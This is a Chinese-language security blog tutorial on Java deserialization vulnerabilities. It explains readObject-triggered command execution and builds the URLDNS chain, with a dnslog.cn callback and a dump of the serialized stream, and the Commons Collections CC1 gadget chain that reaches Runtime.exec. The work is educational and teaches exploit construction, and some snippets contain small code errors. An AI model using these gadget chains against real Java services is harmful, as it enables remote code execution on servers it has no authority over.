







# 反序列化漏洞详解

这里记录反序列化漏洞原理(Java 为主)，分析了 DNSURL 链。

<!-- more -->

### 反序列化漏洞简介

许多编程语言都提供对序列化的内在支持

- PHP 将对象序列化为字符串格式



- Java 将对象序列化为二进制格式

**Java 中的 API 实现：**

位置：java.objectOuputStream java.io.ObjectInputStream

**序列化** ：objectOutputStream 类 -->writeObject()

该方法对参数指定的 obj 对象进行序列化，对字节序列写到一个目标输出流中。按 JAVA 的标准约定是给文件一个.ser 扩展名

**反序列化**: objectInputStream 类–>readObject()

该方法从一个源输入流中读取字节序列，在·把他们反序列化为一个对象，并将其返回。

#### 漏洞源起

2015 年 1 月份,国外安全研究人员 Gabriel Lawrence 和 Chris Frohoff 公布了一个影响范围相当广的 Apache Commons 工具集远程代码执行(RCE)漏洞。由于 Apache Commons 工集几乎是 Java 技术平台中应用的最广泛的工具库,因此影响几乎遍及整个 Java 阵营。

同年 11 月份，FoxGlove Security 安全团队发布的一篇博客中提到 Java 反序列化漏洞，该漏洞可攻击最新版的 WebLogic、WebSphere、JBoss、Jenkins、OpenNMS 应用，能实现远程任意代码执行。且在漏洞被发现的 9 个月后依然没有有效的 Java 库补丁来针对受到影响的产品进行加固。

有很多经典案例 如

- Apache Commons Collections 序列化 RCE 漏洞
- Spring 框架反序列化漏洞
- Fastjson 反序列化漏洞
- Apache Shiro Java 反序列化漏洞

#### 漏洞影响主要产品

机器上一旦有这些应用，即处于“裸奔”状态。黑客可随时利用此漏洞执行任意系统命令，完全获取机器的控制权限，破坏或窃取机器上的数据。

**序列化：**将对象的状态信息转换为可以存储或传输的形式的过程（将 Java 对象转换成字节流的过程）。

**反序列化：**就是将序列化后的字节序列还原为原本的对象的过程。

**序列化与反序列化的目的：**在序列化期间，对象将其当前状态写入到临时或持久性存储区。以后可以通过从存储区中读取或反序列化对象的状态，重新创建该对象。(将对象转换为字节序列，通常用在跨语言、跨平台、网络传输、存储以及进程间传递对象，最重要的作用就是在传递和保存对象时，保证对象的完整性和可传递性)



### Java 反序列化原理

#### 序列化

序列化：在 java 中实现序列化需要实现了`java.io.Serializable`或者`java.io.Externalizable`接口的类的对象，当且仅当对象的类实现上面两个对象时，该对象才有资格进行序列化。

`Externalizable` 接口继承自 `Serializable` 接口，实现`Externalizable`接口的类完全由自身来控制序列化的行为，而仅实现 `Serializable` 接口的类可以采用默认的序列化方式。

然而真正的序列化动作不需要靠`Serializable`完成，它只是一个标记接口(Marker Interface)，不包含任何方法，该接口告诉 Java 虚拟机(JVM)该类的对象已准备好写入持久性存储或通过网络进行读取。



例如想要对 Person 类进行序列化和反序列化操作：

```java

import java.io.Serializable;

class Person implements Serializable {
    public String name;
    public int age;
    Person(String name,int age){
        this.name = name;
        this.age = age;
    }
}
```

```java

import java.io.*;
import java.lang.reflect.InvocationTargetException;
public class Main {
    public static void main(String []args) throws IOException, ClassNotFoundException, NoSuchMethodException, InvocationTargetException, IllegalAccessException, InstantiationException {
        FileOutputStream out =new FileOutputStream("person.txt");
        ObjectOutputStream obj_out = new ObjectOutputStream(out);
        obj_out.writeObject(new Person("z3",12));
    }
}
```

`FileOutputStream`和`ObjectOutputStream`是 java 的流操作，可以把`OutputStream`当做一个单向流出的水管，`FileOutputStream`打开了文件，就相当于给文件接了一个`File`类型水管，然后把`FileOutputStream`类型对象传给了`ObjectOutputStream`，相当于把`File`类型水管接到了 Object 类型水管。由于`Object`类是所有类的父类，所以`Object`类型水管可以投放任何对象。

这里创建了`Person`对象并传给`writeObject`方法，相当于把`Person`对象扔进了`Object`类型水管，这样就把`Person`对象写入了文件。

```
Person对象->Object类型水管->File类型水管->文件
```

如果我想把序列化对象写入 byte 数组，那就创建个`byteArrayOutputStream`类型水管，然后把它接到`Object`类型水管上，后面步骤不变，则：

```
Person对象->Object类型水管->byte类型水管->byte数组
```

**查看序列化后的内容:**

```
java -jar SerializationDumper-v1.13.jar -r person.out
```





#### 反序列化

把`Output`换为了`Input`，把`writeObject`换为了`readObject`。

```java

import java.io.*;
import java.lang.reflect.InvocationTargetException;

public class Main {
    public static void main(String []args) throws IOException, ClassNotFoundException, NoSuchMethodException, InvocationTargetException, IllegalAccessException, InstantiationException {
        FileOutputStream out =new FileOutputStream("person.out");
        ObjectOutputStream obj_out = new ObjectOutputStream(out);
        obj_out.writeObject(new Person("z3",12));

        FileInputStream in =new FileInputStream("person.out");
        ObjectInput obj_in = new ObjectInputStream(in);
        Person p = (Person) obj_in.readObject();
        System.out.println(p.name);
    }
}
```

把单向流出的水管换为单向流入的（`Output`换为`Input`），然后把写入数据的`writeObject`换为`readObject`，即：

```
序列化数据person.txt->File类型水管->Object类型水管->Object对象
```

（Person）这个用法是强制类型转换，将 Object 转 Person 类型，

如果我们在`Person`类中重写`readObject`，那么在反序列化`obj_in.readObject()`中会自动重写自己的`readObject()`方法导致命令的执行，**命令执行反序列化的最终目的其实就是重写`readObject()`方法。**

```java
    private void readObject(ObjectInputStream a) throws IOException, ClassNotFoundException {
        a.defaultReadObject();
        Runtime.getRuntime().exec("calc");
    }
```

其中的`defaultReadObject`是为了保证反序列化正常执行的，因为如果被重写了也就意味着对象不会被解析，加上这个方法对象就可以被解析，如果不写输出时候对象的内容会为空。



#### 特点/应用场景

- 常用与服务器之间的数据传输,序列化成文件,反序列化读取数据
- 常用使用套接字流在主机之间传递对象
- 需要序列化的文件必须实现 Serializable 接口,用来启用序列化功能
- 在反序列化时,如果和序列化的版本号不一致,无法完成反序列化

补充

- 不需要序列化的数据可以修饰成 static,原因:static 资源属于类资源,不随着对象被序列化输出

- 不需要序列化的数据也可以被修饰成 transient(临时的),只在程序运行期间在内存中存在,不会被序列化持久保存

- 每一个被序列化的文件都有一个唯一的 id,如果没有添加此 id,编译器会自动根据类的定义信息计算产生一个

- 读写顺序一致

- 内部属性的类型也需要实现 Serializable 接口

- 具有继承性,父类可以序列化那么子类同样可以（递归）

### 为什么会产生安全问题？

只要服务端反序列化数据，客户端传递类的readObject中代码会自动执行，给予攻击者在服务器上运行代码的能力。

**可能的形式**

1. 入口类的readObject直接调用危险方法。

2. 入口类参数中包含可控类，该类有危险方法，readObject时调用，比如类型定义为Object，调用equals/hashcode/toString。

3. 入口类参数中包含可控类，该类又调用其他有危险方法的类，重点 相同类型 同名函数

4. 构造函数/静态代码块等类加载时隐式执行。

- 共同条件 继承Serializable

- 入口类 source（重写readObject 参数类型宽泛 最好jdk自带，最好的例子就是HashMap）

- 调用链 gadget chain

- 执行类 sink （rce ssrf 写文件等等）

### 核心误解

#### 序列化≠序列化类的代码

**错误理解的序列化**：
```
序列化 → 把整个类的代码都打包进去了 
      → 包括类定义、方法、readObject()方法等
      → 服务器解开就能用
```

**实际的序列化**：
```
序列化 → 只序列化对象的数据（字段值）
      → 不包含类的代码/方法
      → 服务器需要自己有这个类的定义
```

**序列化到底保存了什么？**

一个例子

```java
class Person implements Serializable {
    private String name;
    private int age;
    
    public Person(String name, int age) {
        this.name = name;
        this.age = age;
    }
    
    public void sayHello() {
        System.out.println("Hello, I'm " + name);
    }
}

// 序列化
Person p = new Person("Alice", 25);
oos.writeObject(p);
```

**序列化文件里有什么？**

```
✅ 类的全限定名：com.example.Person
✅ serialVersionUID：1234567890L
✅ 字段名和值：
   - name = "Alice"
   - age = 25

❌ 构造函数的代码
❌ sayHello()方法的代码  
❌ 任何方法的实现
```

**用二进制工具查看序列化后的恶意内容 malicious.ser**

```bash
hexdump -C malicious.ser | head -20
```

你会看到类似这样的内容：
```
ac ed 00 05           # Java序列化魔数
73 72 00 10           # 对象流标识
4d 61 6c 69 63 69 6f 75 73 4f 62 6a 65 63 74  # "MaliciousObject" (类名)
00 00 00 00 00 00 00 01  # serialVersionUID
02 00 01              # 字段数量
4c 00 07 63 6f 6d 6d 61 6e 64  # "command" (字段名)
...
77 68 6f 61 6d 69     # "whoami" (字段值)
```

**注意**：里面只有类名和数据，**没有 readObject() 方法的代码！**

---

**反序列化时发生了什么？**

第1步：读取类名
```java
ois.readObject();
// Java读取字节流，发现：
// "哦，这是一个 MaliciousObject 类的对象"
```

第2步：查找类定义
```java
// Java尝试加载类：
Class<?> clazz = Class.forName("MaliciousObject");
// ↑ 在当前classpath中查找这个类

// 如果找不到 → ClassNotFoundException ❌
// 如果找到了 → 继续下一步 ✓
```

第3步：创建对象并填充数据
```java
// 创建空对象（不调用构造函数）
MaliciousObject obj = allocateInstance(MaliciousObject.class);

// 从序列化数据中读取字段值
obj.command = "whoami";  // 从字节流中读取

// 如果类定义中有 readObject() 方法，调用它
obj.readObject(ois);  // ← 这里调用的是服务器上的类定义中的方法！
```

---

#### 形象类比

- 类比1：组装家具

**序列化文件**就像宜家的包装盒：
```
📦 包装盒上写着：
   - 产品型号：BILLY书架
   - 尺寸：高200cm，宽80cm
   - 颜色：白色
   
❌ 盒子里没有：
   - 如何制造书架的工厂图纸
   - 生产线的机器
```

**反序列化**就像组装：
```
你收到包装盒 → 看到型号"BILLY"
              → 去查看宜家的组装说明书（类定义）
              → 如果你没有说明书 → 无法组装 ❌
              → 如果你有说明书 → 按照说明组装 ✓
```

- 类比2：菜谱

**序列化数据**：
```
菜名：宫保鸡丁
食材：鸡肉250g，花生50g，辣椒10个
```

**类定义（方法）**：
```
做法：
1. 鸡肉切丁
2. 热锅放油
3. 炒香辣椒...
```

**问题**：
- 你把菜名和食材发给朋友（序列化）
- 朋友收到了，但不知道怎么做（没有类定义）
- 朋友：我没有这道菜的菜谱啊！（ClassNotFoundException）

#### 利用目标已有的类才能实现真实攻击

```java
// 目标服务器肯定有这些类：
- java.util.HashMap
- java.util.ArrayList  
- org.apache.commons.collections.Transformer  // 如果用了这个库

// 攻击者构造利用链：
HashMap map = new HashMap();
// ... 巧妙构造 ...
// 序列化这个HashMap

// 服务器：
ois.readObject();  // ✓ HashMap我有！反序列化成功
                   // ✓ 但触发了恶意逻辑
```

### Java 反序列化执行系统命令

在Java反序列化漏洞中，最终目标往往是执行系统命令。下面介绍三种执行系统命令的方式：

#### 1. 正常执行系统命令

最直接的方式是使用`Runtime.getRuntime().exec()`方法：

```java
import java.io.IOException;

public class NormalExec {
    public static void main(String[] args) {
        try {
            // 直接调用Runtime执行命令
            Runtime.getRuntime().exec("calc");
            
            // 或者执行更复杂的命令
            Process process = Runtime.getRuntime().exec("whoami");
            
            // 读取命令输出
            java.io.BufferedReader reader = new java.io.BufferedReader(
                new java.io.InputStreamReader(process.getInputStream())
            );
            String line;
            while ((line = reader.readLine()) != null) {
                System.out.println(line);
            }
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}
```

**特点：**

- 简单直接，无需额外配置
- 但在实际漏洞利用中，往往无法直接调用`Runtime`对象
- `Runtime`类没有实现`Serializable`接口，无法被序列化

#### 2. 反射执行系统命令

使用Java反射机制可以绕过一些限制，动态调用`Runtime`类的方法：

**方式1：使用`Class.forName()`完整的反射调用链**

```java
import java.lang.reflect.Method;

public class ReflectionExec1 {
    public static void main(String[] args) {
        try {
            // 通过Class.forName获取Runtime类
            Class<?> runtimeClass = Class.forName("java.lang.Runtime");
            // 获取getRuntime方法
            Method getRuntimeMethod = runtimeClass.getMethod("getRuntime");
            // 调用getRuntime方法获取Runtime实例
            Object runtime = getRuntimeMethod.invoke(null);
            // 获取exec方法
            Method execMethod = runtimeClass.getMethod("exec", String.class);
            // 调用exec方法执行命令
            execMethod.invoke(runtime, "calc");
            
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

**方式2：使用`Runtime.class`直接获取类对象**

```java
import java.lang.reflect.Method;

public class ReflectionExec2 {
    public static void main(String[] args) {
        try {
            // 直接使用Runtime.class获取类对象
            Class<?> runtimeClass = Runtime.class;
            // 获取getRuntime方法
            Method getRuntimeMethod = runtimeClass.getMethod("getRuntime");
            // 调用getRuntime方法获取Runtime实例
            Runtime runtime = (Runtime) getRuntimeMethod.invoke(null);
            // 获取exec方法
            Method execMethod = runtimeClass.getMethod("exec", String.class);
            // 调用exec方法执行命令
            execMethod.invoke(runtime, "calc");
            
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

**反射执行的完整链路：**

```
Runtime.class 
  → getMethod("getRuntime") 
  → invoke(null) 
  → getMethod("exec", String.class) 
  → invoke(runtime, "calc")
```

**为什么使用Runtime.class而不是Runtime.getRuntime()？**

- `Runtime.getRuntime()`返回的是`java.lang.Runtime`对象，无法序列化
- `Runtime.class`返回的是`java.lang.Class`对象，实现了`Serializable`接口，可以被序列化

#### 3. 反序列化执行系统命令

在反序列化场景中，通过重写`readObject()`方法，在反序列化时自动执行命令：

```java
import java.io.*;
import java.lang.reflect.Method;

public class DeserializeExec {
    public static void main(String[] args) {
        try {
            // 第一步：序列化恶意对象到文件
            System.out.println("=== 开始序列化 ===");
            MaliciousObject obj = new MaliciousObject("open -a claculator");
            serialize(obj, "malicious.ser");
            System.out.println("对象已序列化到文件: malicious.ser");
            
            System.out.println("\n=== 开始反序列化 ===");
            // 第二步：从文件中反序列化对象（此时会触发命令执行）
            MaliciousObject deserializedObj = (MaliciousObject) deserialize("malicious.ser");
            System.out.println("对象已反序列化，命令已执行");
            System.out.println("对象属性 name: " + deserializedObj.name);
            
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
    
    // 序列化方法：将对象写入文件
    public static void serialize(Object obj, String fileName) throws IOException {
        FileOutputStream fos = new FileOutputStream(fileName);
        ObjectOutputStream oos = new ObjectOutputStream(fos);
        oos.writeObject(obj);
        oos.close();
        fos.close();
    }
    
    // 反序列化方法：从文件中读取对象
    public static Object deserialize(String fileName) throws IOException, ClassNotFoundException {
        FileInputStream fis = new FileInputStream(fileName);
        ObjectInputStream ois = new ObjectInputStream(fis);
        Object obj = ois.readObject();
        ois.close();
        fis.close();
        return obj;
    }
}

// 恶意类：必须实现Serializable接口
class MaliciousObject implements Serializable {
    private static final long serialVersionUID = 1L;
    public String command;  // 改为command，用于指定要执行的命令
    
    public MaliciousObject(String command) {
        this.command = command;
    }
    
    private void readObject(ObjectInputStream ois) throws IOException, ClassNotFoundException {
        ois.defaultReadObject();
        
        System.out.println("readObject方法被调用，开始执行命令: " + command);
        
        try {
            Runtime.getRuntime().exec(command);
            System.out.println("命令执行成功！");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

**关键点：**

1. **必须实现`Serializable`接口** - 这是序列化的前提条件

2. **重写`readObject()`方法** - 使用特定的方法签名：

   ```java
   private void readObject(ObjectInputStream ois) throws IOException, ClassNotFoundException
   ```

3. **调用`defaultReadObject()`** - 保证对象能正常反序列化：

   ```java
   ois.defaultReadObject();
   ```

   如果不调用此方法，对象的属性将无法被正确还原

4. **反序列化自动触发** - 当服务端调用`readObject()`反序列化数据时，会自动执行重写的`readObject()`方法中的恶意代码

**这就是反序列化漏洞的核心原理：**

- 攻击者构造包含恶意`readObject()`方法的序列化对象
- 服务端反序列化时自动执行`readObject()`中的代码
- 从而实现远程命令执行(RCE)

**为什么这样危险？**

- 服务端无法控制`readObject()`中执行的代码
- 只要反序列化数据，就会自动执行恶意代码
- 攻击者可以执行任意系统命令，完全控制服务器

### Java 反序列化漏洞利用链条分析

#### URLDNS 链

```java

import java.io.*;
import java.lang.reflect.Field;
import java.net.URL;
import java.util.HashMap;

public class URLDNS {
    public static void main(String[] args) throws IOException, ClassNotFoundException, NoSuchFieldException, IllegalAccessException {
        HashMap<URL, Integer> hash = new HashMap<URL,Integer>();
        URL url = new URL("http://esnir1.dnslog.cn");
        //先反射获取URL类中的hashcode属性
        Class c = Class.forName("java.net.URL");
        Field hashCode = c.getDeclaredField("hashCode"); // java.net.URLStreamHandler类中的hashcode为protected的访问修饰符，就需要用getDeclaredField
        hashCode.setAccessible(true); // 修改访问权限为pubilc
        hashCode.set(url,123); //修改url的hashcode不是-1，这样才会去序列化得到payload
        hash.put(url,1); // 得到要准备序列化的对象hash
        hashCode.set(url,-1); //修改回来，防止反序列化时候不往下执行
        Serialize(hash);
        Unserialize();
    }
    public static void Serialize(Object obj) throws IOException {
        ObjectOutputStream out = new ObjectOutputStream(new FileOutputStream("1.txt"));
        out.writeObject(obj);
        out.close();
    }
    public static void Unserialize() throws IOException, ClassNotFoundException {
        ObjectInputStream In = new ObjectInputStream(new FileInputStream("1.txt"));
        Object obj= In.readObject();
    }

}
```

也可以查看下序列化后的 1.txt

```
STREAM_MAGIC - 0xac ed
STREAM_VERSION - 0x00 05
Contents
  TC_OBJECT - 0x73
    TC_CLASSDESC - 0x72
      className
        Length - 17 - 0x00 11
        Value - java.util.HashMap - 0x6a6176612e7574696c2e486173684d6170
      serialVersionUID - 0x05 07 da c1 c3 16 60 d1
      newHandle 0x00 7e 00 00
      classDescFlags - 0x03 - SC_WRITE_METHOD | SC_SERIALIZABLE
      fieldCount - 2 - 0x00 02
      Fields
        0:
          Float - F - 0x46
          fieldName
            Length - 10 - 0x00 0a
            Value - loadFactor - 0x6c6f6164466163746f72
        1:
          Int - I - 0x49
          fieldName
            Length - 9 - 0x00 09
            Value - threshold - 0x7468726573686f6c64
      classAnnotations
        TC_ENDBLOCKDATA - 0x78
      superClassDesc
        TC_NULL - 0x70
    newHandle 0x00 7e 00 01
    classdata
      java.util.HashMap
        values
          loadFactor
            (float)1.06115891E9 - 0x3f 40 00 00
          threshold
            (int)12 - 0x00 00 00 0c
        objectAnnotation
          TC_BLOCKDATA - 0x77
            Length - 8 - 0x08
            Contents - 0x0000001000000001
          TC_OBJECT - 0x73
            TC_CLASSDESC - 0x72
              className
                Length - 12 - 0x00 0c
                Value - java.net.URL - 0x6a6176612e6e65742e55524c
              serialVersionUID - 0x96 25 37 36 1a fc e4 72
              newHandle 0x00 7e 00 02
              classDescFlags - 0x03 - SC_WRITE_METHOD | SC_SERIALIZABLE
              fieldCount - 7 - 0x00 07
              Fields
                0:
                  Int - I - 0x49
                  fieldName
                    Length - 8 - 0x00 08
                    Value - hashCode - 0x68617368436f6465
                1:
                  Int - I - 0x49
                  fieldName
                    Length - 4 - 0x00 04
                    Value - port - 0x706f7274
                2:
                  Object - L - 0x4c
                  fieldName
                    Length - 9 - 0x00 09
                    Value - authority - 0x617574686f72697479
                  className1
                    TC_STRING - 0x74
                      newHandle 0x00 7e 00 03
                      Length - 18 - 0x00 12
                      Value - Ljava/lang/String; - 0x4c6a6176612f6c616e672f537472696e673b
                3:
                  Object - L - 0x4c
                  fieldName
                    Length - 4 - 0x00 04
                    Value - file - 0x66696c65
                  className1
                    TC_REFERENCE - 0x71
                      Handle - 8257539 - 0x00 7e 00 03
                4:
                  Object - L - 0x4c
                  fieldName
                    Length - 4 - 0x00 04
                    Value - host - 0x686f7374
                  className1
                    TC_REFERENCE - 0x71
                      Handle - 8257539 - 0x00 7e 00 03
                5:
                  Object - L - 0x4c
                  fieldName
                    Length - 8 - 0x00 08
                    Value - protocol - 0x70726f746f636f6c
                  className1
                    TC_REFERENCE - 0x71
                      Handle - 8257539 - 0x00 7e 00 03
                6:
                  Object - L - 0x4c
                  fieldName
                    Length - 3 - 0x00 03
                    Value - ref - 0x726566
                  className1
                    TC_REFERENCE - 0x71
                      Handle - 8257539 - 0x00 7e 00 03
              classAnnotations
                TC_ENDBLOCKDATA - 0x78
              superClassDesc
                TC_NULL - 0x70
            newHandle 0x00 7e 00 04
            classdata
              java.net.URL
                values
                  hashCode
                    (int)2133919961 - 0x7f 31 08 d9
                  port
                    (int)-1 - 0xff ff ff ff
                  authority
                    (object)
                      TC_STRING - 0x74
                        newHandle 0x00 7e 00 05
                        Length - 16 - 0x00 10
                        Value - 0ga8y4.dnslog.cn - 0x3067613879342e646e736c6f672e636e
                  file
                    (object)
                      TC_STRING - 0x74
                        newHandle 0x00 7e 00 06
                        Length - 0 - 0x00 00
                        Value -  - 0x
                  host
                    (object)
                      TC_REFERENCE - 0x71
                        Handle - 8257541 - 0x00 7e 00 05
                    TC_NULL - 0x70
            newHandle 0x00 7e 00 0a
            classdata
              java.lang.Number
                values
              java.lang.Integer
                values
                  value
                    (int)1 - 0x00 00 00 01
          TC_ENDBLOCKDATA - 0x78
```

**总结 URLDNS 链：**

```
HashMap.readObject()-> HashMap.putVul->HashMap.hash()->URLStreamHandler.hashcode().getHostAddress->URLStreamHandler().hashCode().getAddressHost->getByName()
```

#### CCI 链

Apache Commons Collections 是一个扩展了 Java 标准库里的 Collection 结构的第三方基础库，它提供了很多强大的数据结构类型和实现了各种集合工具类。作为 Apache 开放项目的重要组件，Commons Collections 被广泛的各种 Java 应用的开发。commons-collections 组件反序列化漏洞的反射链也称为 CC 链，自从 apache commons-collections 组件爆出第一个 Java 反序列化漏洞后，就像打开了 Java 安全的新世界大门一样，之后很多 Java 中间件相继都爆出反序列化漏洞。

CC1 链有两条一条是`Transform`链另一条是`LazyMap`链。

首先明确要实现的目标是：

```java
Runtime.getRuntime().exec("calc");
```

因此首先要获得 Runtime

```java
Class c = Runtime.class;
```

为什么不用 Runtime.getRuntime() 换成了 Runtime.class ？

前者是一个 java.lang.Runtime 对象，后者是一个 java.lang.Class 对象。Class 类有实现 Serializable 接口，所以可以被序列化。

ConstantTransformer 可以传一个 Runtime 类进去，当被遍历时调用 transform 方法可以返回一个 Runtime 类，正好作为下一个 Transformer 的 transform 方法中的参数。因此 Transformer 数组第一个 Transformer 如下：

```java
new Transformer[]{
  new ConstantTransformer(Runtime.class)
}
```

下一步需要调用 getRuntime，它是 Runtime 里面的方法，前面已经传了 Runtime.class，要获取该方法显然只能通过反射，而 InvokerTransformer 中的 transform 方法刚好提供了这个功能。

正常反射使用方法

```java
Method f = Runtime.class.getMethod("getRuntime");
Runtime r = (Runtime) f.invoke(null);  //获取runtime对象
r.exec("calc"); //调用exec
```

现在已经有了 Runtime 类，那么考虑传一个 getMethod 进去，然后通过反射让 Runtime 类调用 getMethod 方法，参数即为 getRuntime，因此第二个 Transformer 如下：

```java
new Transformer[]{
  new ConstantTransformer(Runtime.class), //返回Runtime类

  new InvokerTransformer("getMethod",   //反射调用getMethod方法，然后getMethod方法再反射调用getRuntime方法，返回Runtime.getRuntime()方法
    new Class[]{String.class, class[].class},
    new Object[]{"getRuntime", new Class[0]})
}
```

然后需要调用 invoke 方法，因此传 invoke 进去，第三个 Transformer 如下：

```java
new Transformer[]{
  new ConstantTransformer(Runtime.class),

  new InvokerTransformer("getMethod",
    new Class[]{String.class, class[].class},
    new Object[]{"getRuntime", new Class[0]}),

  new InvokerTransformer("invoke", //调用invoke方法
    new Class[]{Object.class, Object[].class},
    new Object[]{null, new Object[0]})
}
```

最后调用 exec 方法，因此传 exec 进去，参数是命令，第四个 Transformer 如下：

```java
new Transformer[]{
  new ConstantTransformer(Runtime.class),

  new InvokerTransformer("getMethod",
    new Class[]{String.class, class[].class},
    new Object[]{"getRuntime", new Class[0]}),

  new InvokerTransformer("invoke",
    new Class[]{Object.class, Object[].class},
    new Object[]{null, new Object[0]}),

  new InvokerTransformer("exec", //调用exec方法
    new Class[]{String.class},
    new Object[]{"calc"})
};
```

把 Transformer[]传给 ChainedTransformer

```java
Transformer transformerChain = new ChainedTransformer(transformers);
```

TransformedMap 是实现了 Serializable 的类，构造函数接收 map，key，value。key，value 都是 Transformer。

把 transformerChain 传给 TransformedMap.decorate，造出一个 TransformedMap 对象存在 tmap 中

```java
Map map = new HashMap();
map.put("value", "Roderick");
Map tmap = TransformedMap.decorate(map, null, transformerChain);
```

反射获取`sun.reflect.annotation.AnnotationInvocationHandler` ，获取实例传入 tamp，反序列化的过程就会调用 tamp.setValue

```java
Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor declaredConstructor = c.getDeclaredConstructor(Class.class, Map.class);
declaredConstructor.setAccessible(true);
Object o = declaredConstructor.newInstance(Retention.class, tmap);
```

我们查看它的`readObject`方法（8u71 以后做了一些修改）

```java
    private void readObject(ObjectInputStream var1) throws IOException, ClassNotFoundException {
        var1.defaultReadObject();
        AnnotationType var2 = null;

        try {
            var2 = AnnotationType.getInstance(this.type);
        } catch (IllegalArgumentException var9) {
            throw new InvalidObjectException("Non-annotation type in annotation serial stream");
        }

        Map var3 = var2.memberTypes();
        Iterator var4 = this.memberValues.entrySet().iterator();

        while(var4.hasNext()) {
            Map.Entry var5 = (Map.Entry)var4.next();
            String var6 = (String)var5.getKey();
            Class var7 = (Class)var3.get(var6);
            if (var7 != null) {
                Object var8 = var5.getValue();
                if (!var7.isInstance(var8) && !(var8 instanceof ExceptionProxy)) {
                    var5.setValue((new AnnotationTypeMismatchExceptionProxy(var8.getClass() + "[" + var8 + "]")).setMember((Method)var2.members().get(var6)));
                }
            }
        }

    }
```

核心逻辑就是 `Iterator var4 = this.memberValues.entrySet().iterator();` 和`var5.setValue(...)`

memberValues 就是反序列化后得到的 Map，也是经过了 TransformedMap 修饰的对象，这里遍历了它的所有元素，并依次设置值。在调用 setValue 设置值的时候就会触发 TransformedMap 里注册的 Transform，进而执行我们为其精心设计的任意代码。

所以，我们构造 POC 的时候，就需要创建一个`AnnotationInvocationHandler`对象，并将前面构造的`HashMap`设置进来

```java
Class cls =Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor construct = clazz.getDeclaredConstructor(Class.class, Map.class);
construct.setAccessible(true);
Object obj = construct.newInstance(Retention.class, outerMap);
```

这里因为`sun.reflect.annotation.AnnotationInvocationHandler`是在 JDK 内部的类，不能直接使用 new 来实例化。可以使用反射获取它的构造方法，并将其设置成外部可见的，再调用就可以实例化了。`AnnotationInvocationHandler`类的构造函数有两个参数，第一个参数是一个`Annotation`类；第二个是参数就是前面构造的`Map`

在 `AnnotationInvocationHandler#readObject` 的逻辑中，有一个 if 语句对 var7 进行判断，只有在其不是`null`的时候才会进入里面执行`setValue`，否则不会进入也就不会触发漏洞。

那么如何让这个 var7 不为 null 呢？两个条件

1. `sun.reflect.annotation.AnnotationInvocationHandler`构造函数的第一个参数必须是 `Annotation`的子类，且其中必须含有至少一个方法，假设方法名是 X
2. 被`TransformedMap.decorate`修饰的 Map 中必须有一个键名为`X`的元素

所以，这也就是前面用到`Retention.class`的原因，因为 Retention 有一个方法，名为`value`；所以，为了再满足第二个条件，需要给 Map 中放入一个 Key 是`value`的元素：

```java
Map.put("value", "xxxx");
```

若不设置为 value



```
寻找链的思路：
InvokerTransformer.transform是执行命令的关键，找的思路就是找哪里调用了transform，对应的方法又在哪被调用，最后直至找到readObject里调用的方法。

AnnotationInvocationHandler.readObject()->TransformedMap.checkSetValue()->ChainedTransformer->InvokerTransformer->Runtime.exec
```
